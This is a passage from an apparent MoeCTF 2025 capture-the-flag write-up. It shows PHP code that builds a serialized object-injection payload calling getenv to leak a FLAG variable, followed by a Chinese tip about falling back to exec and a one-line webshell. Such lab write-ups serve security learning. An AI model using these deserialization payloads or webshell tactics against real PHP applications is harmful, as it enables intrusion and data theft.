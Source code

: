 ```php
$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "getenv";
$pwn -> name = $pc;
$pwn -> id = "check";
$pwn -> age = "FLAG";

$payload = serialize($pwn);
echo urlencode($payload);
```

![image.png](./moectf2025wp/image_48.png)

优先猜环境变量，不行再去找文件，再不行 `exec` 写个一句话木马也可以慢慢找到。

---

## [SSTI 模板注入] 20 第二十章 幽冥血海·幻语心魔
